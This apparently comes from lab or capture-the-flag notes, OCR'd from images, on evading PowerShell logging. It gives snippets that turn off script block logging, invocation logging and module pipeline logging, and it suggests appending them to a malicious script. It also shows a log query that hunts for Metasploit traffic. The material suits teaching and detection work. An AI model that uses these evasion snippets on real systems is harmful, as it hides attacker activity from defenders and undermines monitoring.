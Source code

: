 ```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockLogging'] = 0
```

At step three, we can repeat the previous step with any other provider settings we want to `EnableScriptBlockInvocationLogging` will control **4103** events, limiting the visibility of cmdlet and pipeline execution.

```powershell
$GroupPolicySettings['ScriptBlockLogging']['EnableScriptBlockInvocationLogging'] = 0
```

We can compile these steps together and append them to a malicious PowerShell script. Use the PowerShell script provided and experiment with this technique.
[Before]
```powershell
PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count 0 

PS C:\Users\Administrator\Desktop> whoami Tryhackme\administrator 

PS C:\Users\Administrator\Desktop> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Measure | % Count 3```

```powershell
  
PS C:\Users\THM-Analyst> Get-WinEvent -Path C:\Users\THM-Analyst\Desktop\Scenarios\Practice\Hunting_Metasploit.evtx -FilterXPath '*/System/EventID=3 and */EventData/Data[@Name="DestinationPort"] and */EventData/Data=4444' 

ProviderName: Microsoft-Windows-Sysmon TimeCreated Id LevelDisplayName Message ----------- -- ---------------- ------- 1/5/2021 2:21:32 AM 3 Information Network connection detected:...
```

# Abusing Log Pipeline

rom the [Microsoft docs](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_eventlogs?view=powershell-5.1#logging-module-events), “When the _LogPipelineExecutionDetails_ property value is TRUE (`$true`), Windows PowerShell writes cmdlet and function execution events in the session to the Windows PowerShell log in Event Viewer.” An attacker can change this value to `$false` in any PowerShell session to disable a module logging for that specific session. The Microsoft docs even note the ability to disable logging from a user session, “To disable logging, use the same command sequence to set the property value to FALSE (`$false`).”

At a high-level the log pipeline technique can be broken up into four steps:

1. Obtain the target module.
2. Set module execution details to `$false`.
3. Obtain the module snap-in.
4. Set snap-in execution details to `$false`.


```powershell
$module = Get-Module Microsoft.PowerShell.Utility # Get target module
$module.LogPipelineExecutionDetails = $false # Set module execution details to false
$snap = Get-PSSnapin Microsoft.PowerShell.Core # Get target ps-snapin
$snap.LogPipelineExecutionDetails = $false # Set ps-snapin execution details to false
```
